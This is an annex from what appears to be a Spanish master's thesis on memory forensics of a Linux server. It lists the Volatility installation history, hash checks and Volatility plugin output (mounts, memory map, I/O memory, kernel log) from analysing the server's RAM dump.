

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-002)

---

    

#### 8.2.004.004.003. Análisis apache error log 1.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-003)

---

#### 8.2.004.004.004. Análisis MySQL log 1.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-004)

---

#### 8.2.004.004.005. Análisis MySQL log 2.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-005)

---

               

#### 8.2.004.004.006. Análisis web.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-006)

---

                        

#### 8.2.004.004.007. Análisis index.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-007)

---

             

#### 8.2.004.004.008. Análisis mails.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-008)

---

                           

#### 8.2.004.004.009. Análisis mails 2.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-009)

---

               

#### 8.2.004.004.010. Análisis mails 3.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-010)

---

                 

#### 8.2.004.004.011. Análisis mails 4.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-011)

---

               

#### 8.2.004.004.012. Análisis mails 5.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-012)

---

       

#### 8.2.004.004.013. Análisis mails 6.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-013)

---

   

#### 8.2.004.004.014. Análisis mails 7.

[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-014)

---

        

#### 8.2.004.004.015. Análisis mails 8.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-015)

---

   

#### 8.2.004.004.016. Análisis mails 9.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-016)

---

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

   

## 8.3. Videos.

---

#### 8.3.003.002.001. Video de instalación de Volatility en Ubuntu.

> [https://www.youtube.com/watch?v=dCU6kIh0qSI&ab_channel=TFM-ANALISIS-FORENSE](https://www.youtube.com/watch?v=dCU6kIh0qSI&ab_channel=TFM-ANALISIS-FORENSE)

[Volver al texto del video en la Sección 3.2.](#32-video-001)

[Volver al texto del video en la Sección 3.3.2.](#332-video-001)

---

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

                     

## 8.4. Extracto de comandos utilizados.

---

#### 8.4.003.001.001. Comando Hash MD5.

~~~PowerShell
Get-FileHash .\Server_RAM.mem -Algorithm MD5
~~~

La respuesta de PowerShell es el siguiente:

~~~PowerShell
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             75A99B57032AA34BA19042ED85DB273F                                       D:\TFM\RAM\...
~~~

[Volver al texto del comando en la Sección 3.1](#31-comando-001-31-comando-002)

---

#### 8.4.003.001.002. Comando Hash SHA1.

~~~PowerShell
Get-FileHash .\Server_RAM.mem -Algorithm SHA1
~~~

La respuesta de PowerShell es el siguiente:

~~~PowerShell
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA1            CC1FAD2AF321B8C2DDF0103986E3B344EB8F2CC8                               D:\TFM\RAM\...
~~~

[Volver al texto del comando en la Sección 3.1.](#31-comando-001-31-comando-002)

---

       

#### 8.4.003.003.000.001. Comando sudo python2.7 vol.py --info.

~~~bash
sudo python2.7 vol.py --info
~~~

La respuesta de la shell es la siguiente:

~~~bash
Profiles
--------
VistaSP0x64                         - A Profile for Windows Vista SP0 x64
VistaSP0x86                         - A Profile for Windows Vista SP0 x86
VistaSP1x64                         - A Profile for Windows Vista SP1 x64
VistaSP1x86                         - A Profile for Windows Vista SP1 x86
VistaSP2x64                         - A Profile for Windows Vista SP2 x64
VistaSP2x86                         - A Profile for Windows Vista SP2 x86
Win10x64                            - A Profile for Windows 10 x64
Win10x64_10240_17770                - A Profile for Windows 10 x64 (10.0.10240.17770 / 2018-02-10)
Win10x64_10586                      - A Profile for Windows 10 x64 (10.0.10586.306 / 2016-04-23)
Win10x64_14393                      - A Profile for Windows 10 x64 (10.0.14393.0 / 2016-07-16)
Win10x64_15063                      - A Profile for Windows 10 x64 (10.0.15063.0 / 2017-04-04)
Win10x64_16299                      - A Profile for Windows 10 x64 (10.0.16299.0 / 2017-09-22)
Win10x64_17134                      - A Profile for Windows 10 x64 (10.0.17134.1 / 2018-04-11)
Win10x64_17763                      - A Profile for Windows 10 x64 (10.0.17763.0 / 2018-10-12)
Win10x64_18362                      - A Profile for Windows 10 x64 (10.0.18362.0 / 2019-04-23)
Win10x64_19041                      - A Profile for Windows 10 x64 (10.0.19041.0 / 2020-04-17)
Win10x86                            - A Profile for Windows 10 x86
Win10x86_10240_17770                - A Profile for Windows 10 x86 (10.0.10240.17770 / 2018-02-10)
Win10x86_10586                      - A Profile for Windows 10 x86 (10.0.10586.420 / 2016-05-28)
Win10x86_14393                      - A Profile for Windows 10 x86 (10.0.14393.0 / 2016-07-16)
Win10x86_15063                      - A Profile for Windows 10 x86 (10.0.15063.0 / 2017-04-04)
Win10x86_16299                      - A Profile for Windows 10 x86 (10.0.16299.15 / 2017-09-29)
Win10x86_17134                      - A Profile for Windows 10 x86 (10.0.17134.1 / 2018-04-11)
Win10x86_17763                      - A Profile for Windows 10 x86 (10.0.17763.0 / 2018-10-12)
Win10x86_18362                      - A Profile for Windows 10 x86 (10.0.18362.0 / 2019-04-23)
Win10x86_19041                      - A Profile for Windows 10 x86 (10.0.19041.0 / 2020-04-17)
Win2003SP0x86                       - A Profile for Windows 2003 SP0 x86
Win2003SP1x64                       - A Profile for Windows 2003 SP1 x64
Win2003SP1x86                       - A Profile for Windows 2003 SP1 x86
Win2003SP2x64                       - A Profile for Windows 2003 SP2 x64
Win2003SP2x86                       - A Profile for Windows 2003 SP2 x86
Win2008R2SP0x64                     - A Profile for Windows 2008 R2 SP0 x64
Win2008R2SP1x64                     - A Profile for Windows 2008 R2 SP1 x64
Win2008R2SP1x64_23418               - A Profile for Windows 2008 R2 SP1 x64 (6.1.7601.23418 / 2016-04-09)
Win2008R2SP1x64_24000               - A Profile for Windows 2008 R2 SP1 x64 (6.1.7601.24000 / 2016-04-09)
Win2008SP1x64                       - A Profile for Windows 2008 SP1 x64
Win2008SP1x86                       - A Profile for Windows 2008 SP1 x86
Win2008SP2x64                       - A Profile for Windows 2008 SP2 x64
Win2008SP2x86                       - A Profile for Windows 2008 SP2 x86
Win2012R2x64                        - A Profile for Windows Server 2012 R2 x64
Win2012R2x64_18340                  - A Profile for Windows Server 2012 R2 x64 (6.3.9600.18340 / 2016-05-13)
Win2012x64                          - A Profile for Windows Server 2012 x64
Win2016x64_14393                    - A Profile for Windows Server 2016 x64 (10.0.14393.0 / 2016-07-16)
Win7SP0x64                          - A Profile for Windows 7 SP0 x64
Win7SP0x86                          - A Profile for Windows 7 SP0 x86
Win7SP1x64                          - A Profile for Windows 7 SP1 x64
Win7SP1x64_23418                    - A Profile for Windows 7 SP1 x64 (6.1.7601.23418 / 2016-04-09)
Win7SP1x64_24000                    - A Profile for Windows 7 SP1 x64 (6.1.7601.24000 / 2018-01-09)
Win7SP1x86                          - A Profile for Windows 7 SP1 x86
Win7SP1x86_23418                    - A Profile for Windows 7 SP1 x86 (6.1.7601.23418 / 2016-04-09)
Win7SP1x86_24000                    - A Profile for Windows 7 SP1 x86 (6.1.7601.24000 / 2018-01-09)
Win81U1x64                          - A Profile for Windows 8.1 Update 1 x64
Win81U1x86                          - A Profile for Windows 8.1 Update 1 x86
Win8SP0x64                          - A Profile for Windows 8 x64
Win8SP0x86                          - A Profile for Windows 8 x86
Win8SP1x64                          - A Profile for Windows 8.1 x64
Win8SP1x64_18340                    - A Profile for Windows 8.1 x64 (6.3.9600.18340 / 2016-05-13)
Win8SP1x86                          - A Profile for Windows 8.1 x86
WinXPSP1x64                         - A Profile for Windows XP SP1 x64
WinXPSP2x64                         - A Profile for Windows XP SP2 x64
WinXPSP2x86                         - A Profile for Windows XP SP2 x86
WinXPSP3x86                         - A Profile for Windows XP SP3 x86
~~~

[Volver al texto del comando en la Sección 3.3.0.](#330-comando-001)

---

#### 8.4.003.003.002.001. Comando sudo history > usb/historial.txt.

~~~bash
history > usb/historial.txt
~~~

Se ha guardado en el archivo `/home/jrodg85/usb/historial.txt` el siguiente historial de acciones de la consola:

~~~bash
 1  sudo apt update
 2  sudo apt upgrade
 3  sudo apt install zip
 4  sudo apt install git
 5  sudo apt install make
 6  sudo apt install dwarfdump
 7  sudo apt-cache search linux-image | grep 4.15.0-1021-aws
 8  sudo apt install linux-image-4.15.0-1021-aws
 9  sudo reboot now
10  uname -r
11  hostnamectl
12  sudo apt install build-essential
13  sudo apt update
14  sudo apt install linux-headers-$(uname -r)
15  sudo apt install python2.7 python2.7-dev
16  sudo snap install curl
17  dpkg -l python2.7
18  curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
19  sudo python2.7 get-pip.py
20  sudo pip2.7 --version
21  git clone https://github.com/volatilityfoundation/volatility.git
22  sudo pip2.7 install distorm3
23  sudo pip2.7 list
24  sudo pip2.7 install yara-python==3.8.1
25  sudo pip2.7 list
26  sudo pip2.7 install pycrypto
27  sudo pip2.7 list
28  sudo pip2.7 install Pillow
29  sudo pip2.7 list
30  sudo pip2.7 install openpyxl==2.6.4
31  sudo pip2.7 list
32  sudo pip2.7 install ujson
33  sudo pip2.7 list
34  cd volatility/
35  sudo python2.7 setup.py install
36  sudo python2.7 vol.py --info
37  cd tools/linux/
38  make
39  cd ..
40  cd ../..
41  lsb_release -si
42  uname -r
43  clear
44  sudo zip linux$(lsb_release -si)_$(uname -r)_profile.zip /home/jrodg85/volatility/tools/linux/module.dwarf /boot/System.map-4.15.0-1021-aws
45  mkdir usb
46  ls
47  sudo mount /dev/sdb usb/
48  cp linuxUbuntu_4.15.0-1021-aws_profile.zip usb/
49  touch usb/historial.txt
50  history > usb/historial.txt
~~~

[Volver al texto del comando en la Sección 3.3.2](#332-comando-001)

---

                                 

#### 8.4.003.004.003.001. Comando sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_mount.

~~~bash
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_mount
~~~

La respuesta de volatility ha sido la siguiente

~~~bash
Volatility Foundation Volatility Framework 2.6.1

cgroup                    /sys/fs/cgroup/rdma                 cgroup       rw,relatime,nosuid,nodev,noexec

tmpfs                     /sys/fs/cgroup                      tmpfs        ro,nosuid,nodev,noexec

/dev/xvda1                /                                   ext4         ro,relatime

proc                      /bus                                proc         ro,relatime,nosuid,nodev,noexec

pstore                    /sys/fs/pstore                      pstore       rw,relatime,nosuid,nodev,noexec

fusectl                   /sys/fs/fuse/connections            fusectl      rw,relatime

lxcfs                     /var/lib/lxcfs                      fuse         ro,relatime,nosuid,nodev

/dev/loop0                /snap/core/5328                     squashfs     ro,relatime,nodev

udev                      /dev                                devtmpfs     rw,relatime,nosuid

cgroup                    /sys/fs/cgroup/unified              cgroup2      rw,relatime,nosuid,nodev,noexec

sysfs                     /sys                                sysfs        rw,relatime,nosuid,nodev,noexec

tmpfs                     /run/user/1000                      tmpfs        rw,relatime,nosuid,nodev

/dev/loop1                /snap/amazon-ssm-agent/495          squashfs     ro,relatime,nodev

tmpfs                     /run                                tmpfs        rw,relatime,nosuid,noexec

devpts                    /dev/pts                            devpts       rw,relatime,nosuid,noexec

systemd-1                 /proc/sys/fs/binfmt_misc            autofs       rw,relatime

tmpfs                     /dev/shm                            tmpfs        rw,nosuid,nodev

cgroup                    /sys/fs/cgroup/net_cls,net_prio     cgroup       rw,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/hugetlb              cgroup       ro,relatime,nosuid,nodev,noexec

hugetlbfs                 /dev/hugepages                      hugetlbfs    rw,relatime

tmpfs                     /dev                                tmpfs        ro,nosuid,noexec

/dev/loop2                /snap/core/6130                     squashfs     ro,relatime,nodev

tmpfs                     /run/lock                           tmpfs        rw,relatime,nosuid,nodev,noexec

/dev/loop3                /snap/amazon-ssm-agent/930          squashfs     ro,relatime,nodev

cgroup                    /sys/fs/cgroup/cpuset               cgroup       rw,relatime,nosuid,nodev,noexec

tmpfs                     /dev                                tmpfs        ro,nosuid,noexec

mqueue                    /dev/mqueue                         mqueue       rw,relatime

cgroup                    /sys/fs/cgroup/devices              cgroup       rw,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/freezer              cgroup       rw,relatime,nosuid,nodev,noexec

securityfs                /sys/kernel/security                securityfs   rw,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/blkio                cgroup       rw,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/cpu,cpuacct          cgroup       ro,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/systemd              cgroup       ro,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/perf_event           cgroup       rw,relatime,nosuid,nodev,noexec

debugfs                   /sys/kernel/debug                   debugfs      rw,relatime

configfs                  /sys/kernel/config                  configfs     rw,relatime

cgroup                    /sys/fs/cgroup/memory               cgroup       rw,relatime,nosuid,nodev,noexec

cgroup                    /sys/fs/cgroup/pids                 cgroup       ro,relatime,nosuid,nodev,noexec

tmpfs                     /var/lib/private                    tmpfs        ro,nosuid,nodev,noexec
~~~

Procesado el comando, se puede obtener esta tabla resumen:

| Punto de Montaje | Dispositivo o Sistema de Archivos | Tipo      | Opciones de Montaje             |
|------------------|------------------------------------|----------|--------------------------------|
| cgroup           | /sys/fs/cgroup/rdma               | cgroup      | rw,relatime,nosuid,nodev,noexec |
| tmpfs            | /sys/fs/cgroup                    | tmpfs       | ro,nosuid,nodev,noexec |
| /dev/xvda1       | /                                 | ext4        | ro,relatime |
| proc             | /bus                              | proc        | ro,relatime,nosuid,nodev,noexec |
| pstore           | /sys/fs/pstore                    | pstore      | rw,relatime,nosuid,nodev,noexec |
| fusectl          | /sys/fs/fuse/connections          | fusectl     | rw,relatime |
| lxcfs            | /var/lib/lxcfs                    | fuse        | ro,relatime,nosuid,nodev |
| /dev/loop0       | /snap/core/5328                   | squashfs    | ro,relatime,nodev |
| udev             | /dev                              | devtmpfs    | rw,relatime,nosuid |
| cgroup           | /sys/fs/cgroup/unified            | cgroup2     | rw,relatime,nosuid,nodev,noexec |
| sysfs            | /sys                              | sysfs       | rw,relatime,nosuid,nodev,noexec |
| tmpfs            | /run/user/1000                    | tmpfs       | rw,relatime,nosuid,nodev |
| /dev/loop1       | /snap/amazon-ssm-agent/495        | squashfs    | ro,relatime,nodev |
| tmpfs            | /run                              | tmpfs       | rw,relatime,nosuid,noexec |
| devpts           | /dev/pts                          | devpts      | rw,relatime,nosuid,noexec |
| systemd-1        | /proc/sys/fs/binfmt_misc          | autofs      | rw,relatime |
| tmpfs            | /dev/shm                          | tmpfs       | rw,nosuid,nodev |
| cgroup           | /sys/fs/cgroup/net_cls,net_prio   | cgroup      | rw,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/hugetlb            | cgroup      | ro,relatime,nosuid,nodev,noexec |
| hugetlbfs        | /dev/hugepages                    | hugetlbfs   | rw,relatime |
| tmpfs            | /dev                              | tmpfs       | ro,nosuid,noexec |
| /dev/loop2       | /snap/core/6130                   | squashfs    | ro,relatime,nodev |
| tmpfs            | /run/lock                         | tmpfs       | rw,relatime,nosuid,nodev,noexec |
| /dev/loop3       | /snap/amazon-ssm-agent/930        | squashfs    | ro,relatime,nodev |
| cgroup           | /sys/fs/cgroup/cpuset             | cgroup      | rw,relatime,nosuid,nodev,noexec |
| tmpfs            | /dev                              | tmpfs       | ro,nosuid,noexec |
| mqueue           | /dev/mqueue                       | mqueue      | rw,relatime |
| cgroup           | /sys/fs/cgroup/devices            | cgroup      | rw,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/freezer            | cgroup      | rw,relatime,nosuid,nodev,noexec |
| securityfs       | /sys/kernel/security              | securityfs  | rw,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/blkio              | cgroup      | rw,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/cpu,cpuacct        | cgroup      | ro,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/systemd            | cgroup      | ro,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/perf_event         | cgroup      | rw,relatime,nosuid,nodev,noexec |
| debugfs          | /sys/kernel/debug                 | debugfs     | rw,relatime |
| configfs         | /sys/kernel/config                | configfs    | rw,relatime |
| cgroup           | /sys/fs/cgroup/memory             | cgroup      | rw,relatime,nosuid,nodev,noexec |
| cgroup           | /sys/fs/cgroup/pids               | cgroup      | ro,relatime,nosuid,nodev,noexec |
| tmpfs            | /var/lib/private                  | tmpfs       | ro,nosuid,nodev,noexec |
| | | | |

[Volver al texto del comando en la Sección 3.4.3.](#343-comando-001)

---

   

#### 8.4.003.004.004.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_memmap > /home/jrodg85/informe-memmap.txt`.

~~~Bash
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_memmap > /home/jrodg85/informe-memmap.txt
~~~

Tras una limpieza de datos se obtiene la siguiente información.

~~~Bash
Task             Pid      Virtual
---------------- -------- ------------------
systemd          1        0x000056198f210000
Unable to read pages for kthreadd pid 2.
Unable to read pages for kworker/0:0H pid 4.
Unable to read pages for mm_percpu_wq pid 6.
Unable to read pages for ksoftirqd/0 pid 7.
Unable to read pages for rcu_sched pid 8.
Unable to read pages for rcu_bh pid 9.
Unable to read pages for migration/0 pid 10.
Unable to read pages for watchdog/0 pid 11.
Unable to read pages for cpuhp/0 pid 12.
Unable to read pages for kdevtmpfs pid 13.
Unable to read pages for netns pid 14.
Unable to read pages for rcu_tasks_kthre pid 15.
Unable to read pages for kauditd pid 16.
Unable to read pages for xenbus pid 17.
Unable to read pages for xenwatch pid 18.
Unable to read pages for khungtaskd pid 20.
Unable to read pages for oom_reaper pid 21.
Unable to read pages for writeback pid 22.
Unable to read pages for kcompactd0 pid 23.
Unable to read pages for ksmd pid 24.
Unable to read pages for khugepaged pid 25.
Unable to read pages for crypto pid 26.
Unable to read pages for kintegrityd pid 27.
Unable to read pages for kblockd pid 28.
Unable to read pages for ata_sff pid 29.
Unable to read pages for md pid 30.
Unable to read pages for edac-poller pid 31.
Unable to read pages for devfreq_wq pid 32.
Unable to read pages for watchdogd pid 33.
Unable to read pages for kswapd0 pid 36.
Unable to read pages for ecryptfs-kthrea pid 37.
Unable to read pages for kthrotld pid 79.
Unable to read pages for nvme-wq pid 80.
Unable to read pages for scsi_eh_0 pid 81.
Unable to read pages for scsi_tmf_0 pid 82.
Unable to read pages for scsi_eh_1 pid 83.
Unable to read pages for scsi_tmf_1 pid 84.
Unable to read pages for ipv6_addrconf pid 89.
Unable to read pages for kstrp pid 99.
Unable to read pages for kworker/0:1H pid 100.
Unable to read pages for raid5wq pid 280.
Unable to read pages for jbd2/xvda1-8 pid 330.
Unable to read pages for ext4-rsv-conver pid 331.
Unable to read pages for iscsi_eh pid 395.
Unable to read pages for ib-comp-wq pid 408.
Unable to read pages for ib_mcast pid 409.
Unable to read pages for ib_nl_sa_wq pid 410.
lvmetad          414      0x000055c919805000
Unable to read pages for rdma_cm pid 415.
systemd-logind   712      0x0000555feb5b1000
dbus-daemon      720      0x000055e82c96e000
cron             733      0x000055da6b87f000
accounts-daemon  734      0x00005622d937a000
lxcfs            737      0x0000559f4b3c0000
atd              749      0x00005617c519f000
polkitd          771      0x000055e2bdf70000
agetty           785      0x0000561ce77d2000
Unable to read pages for loop0 pid 951.
Unable to read pages for loop1 pid 1103.
systemd-network  2788     0x000056528aefc000
systemd-resolve  2804     0x0000556117890000
systemd-timesyn  2818     0x000055ec03062000
systemd-journal  2825     0x000055788deea000
uuidd            5077     0x00005626dc1f7000
systemd-udevd    5160     0x000055db9d680000
Unable to read pages for xfsalloc pid 10374.
Unable to read pages for xfs_mru_cache pid 10375.
iscsid           10988    0x0000556f3766c000
networkd-dispat  11199    0x000000000040b000
sshd             12159    0x000055ced2c2b000
mysqld           5127     0x0000000000758000
apache2          5469     0x0000555836828000
Unable to read pages for loop2 pid 6189.
snapd            6219     0x000000c000000000
Unable to read pages for loop3 pid 6349.
amazon-ssm-agen  6445     0x0000000000401000
rsyslogd        26254     0x000055a525c04000
master          26489     0x0000560cfc179000
qmgr            26500     0x00005561e4c3e000
Unable to read pages for kworker/0:0 pid 19056.
Unable to read pages for kworker/u30:2 pid 19454.
apache2         19704     0x0000555836828000
apache2         19705     0x0000555836828000
apache2         19706     0x0000555836828000
apache2         19707     0x0000555836828000
apache2         19708     0x0000555836828000
Unable to read pages for kworker/0:1 pid 19709.
apache2         19952     0x0000555836828000
apache2         19953     0x0000555836828000
apache2         20230     0x0000555836828000
apache2         20231     0x0000555836828000
apache2         20232     0x0000555836828000
apache2         20233     0x0000555836828000
Unable to read pages for sh pid 20381.
sshd            20483     0x0000556d21d8b000
systemd         20485     0x000055cc54c92000
(sd-pam)        20486     0x000056198f210000
sshd            20576     0x0000556d21d90000
bash            20577     0x000055931a312000
pickup          20703     0x00005566d1a50000
Unable to read pages for kworker/u30:1 pid 20781.
Unable to read pages for kworker/u30:0 pid 20886.
sudo            20893     0x000055c043a14000
insmod          20894     0x00005620e496f000
Unable to read pages for kworker/0:2 pid 20898.
~~~

[Volver al texto del comando en la Sección 3.4.4.](#344-comando-001)

---

                            

#### 8.4.003.004.005.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_iomem`.

~~~Bash
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_iomem
~~~

La respuesta de la consola ha sido la siguiente:

~~~Bash
Volatility Foundation Volatility Framework 2.6.1
Reserved                0x0           0xFFF
System RAM              0x1000        0x9DFFF
Reserved                0x9E000       0x9FFFF
PCI Bus 0000:00         0xA0000       0xBFFFF
Video ROM               0xC0000       0xC8BFF
Reserved                0xE0000       0xFFFFF
  System ROM            0xF0000       0xFFFFF
System RAM              0x100000      0x3FFFFFFF
  Kernel code           0x31C00000    0x328031D0
  Kernel data           0x328031D1    0x33055EBF
  Kernel bss            0x332C5000    0x33516FFF
PCI Bus 0000:00         0xF0000000    0xFBFFFFFF
  0000:00:02.0          0xF0000000    0xF1FFFFFF
  0000:00:03.0          0xF2000000    0xF2FFFFFF
    xen-platform-pci    0xF2000000    0xF2FFFFFF
  0000:00:02.0          0xF3000000    0xF3000FFF
Reserved                0xFC000000    0xFFFFFFFF
  IOAPIC 0              0xFEC00000    0xFEC003FF
  HPET 0                0xFED00000    0xFED003FF
    PNP0103:00          0xFED00000    0xFED003FF
  Local APIC            0xFEE00000    0xFEE00FFF
~~~

[Volver al texto del comando en la Sección 3.4.5.](#345-comando-001)

---

           

#### 8.4.003.004.006.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_dmesg > /home/jrodg85/informe-linux_dmesg.txt`.

~~~Bash
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_dmesg > /home/jrodg85/informe-linux_dmesg.txt
~~~

La respuesta del comando en el archivo de texto fue el siguiente:

~~~
[0.0] Linux version 4.15.0-1021-aws (buildd@lcy01-amd64-001) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Aug 28 10:23:07 UTC 2018 (Ubuntu 4.15.0-1021.21-aws 4.15.18)
[0.0] Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-1021-aws root=LABEL=cloudimg-rootfs ro console=tty1 console=ttyS0 nvme.io_timeout=4294967295
[0.0] KERNEL supported cpus:
[0.0]   Intel GenuineIntel
[0.0]   AMD AuthenticAMD
[0.0]   Centaur CentaurHauls
[0.0] x86/fpu: Supporting XSAVE feature 0x001: 'x87 floating point registers'
[0.0] x86/fpu: Supporting XSAVE feature 0x002: 'SSE registers'
[0.0] x86/fpu: Supporting XSAVE feature 0x004: 'AVX registers'
[0.0] x86/fpu: xstate_offset[2]:  576, xstate_sizes[2]:  256
